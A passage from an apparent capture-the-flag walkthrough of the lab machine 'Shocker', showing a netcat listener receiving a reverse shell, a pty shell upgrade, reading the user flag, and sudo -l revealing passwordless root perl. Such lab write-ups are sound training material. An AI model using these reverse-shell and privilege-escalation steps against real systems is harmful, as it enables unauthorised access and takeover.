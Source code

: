 Looks like the host is vulnerable.

I'll start my netcat listener on port 1337 and add a reverse shell payload.

<figure><img src="../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

The response hangs, and checking on our netcat yields a shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.56] 48700
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

I'll upgrade the shell and get user.txt while I'm at it.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.56] 48706
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'                        
shelly@Shocker:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -lvnp 1337

┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1337

shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
<REDACTED>
```

## Privilege Escalation

I always check sudo -l first to see if I can leverage any easy exploits, and I get a free path to root.

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
